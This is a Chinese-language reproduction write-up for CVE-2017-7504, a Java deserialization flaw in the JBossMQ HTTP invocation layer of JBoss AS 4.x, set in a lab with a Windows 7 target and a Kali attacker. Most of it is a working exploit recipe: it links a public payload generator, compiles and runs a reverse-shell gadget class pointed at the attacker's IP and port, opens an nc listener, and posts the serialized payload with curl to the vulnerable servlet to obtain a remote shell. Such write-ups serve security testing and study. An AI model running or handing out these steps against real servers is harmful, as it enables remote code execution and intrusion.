

# （CVE-2017-7504）JBoss 4.x JBossMQ JMS 反序列化漏洞

## 一、漏洞简介

JBoss AS 4.x及之前版本中，JbossMQ实现过程的JMS over HTTP Invocation Layer的HTTPServerILServlet.java文件存在反序列化漏洞，远程攻击者可借助特制的序列化数据利用该漏洞执行任意代码。

## 二、漏洞影响

JBoss AS 4.x及之前版本

## 三、复现过程

win7一台，ip为172.26.1.127（靶机，安装了java环境）

kali一台，ip为192.168.1.192(攻击机)

输入[http://172.26.1.127:8080/jbossmq-httpil/HTTPServerILServlet](http://172.26.1.127:8080/jbossmq-httpil/HTTPServerILServlet)，如果显示下图，则可能存在漏洞


进入kali攻击机，下载反序列化工具:[https://github.com/ianxtianxt/CVE-2015-7501/](https://github.com/ianxtianxt/CVE-2015-7501/)

解压完，进入到这个工具目录 ,执行命令:

> 继续执行命令:

```
javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java 
```

```
java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 192.168.1.192:4444（IP是攻击机ip,4444是要监听的端口) 
```

新界面开启nc准备接收反弹过来的shell。命令:nc -lvnp 4444

这个时候在这个目录下生成了一个ReverseShellCommonsCollectionsHashMap.ser文件，然后我们curl就能反弹shell了，执行命令:

```
curl http://172.26.1.127:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @ReverseShellCommonsCollectionsHashMap.ser 
```


回到nc界面，发现shell已经反弹回来了

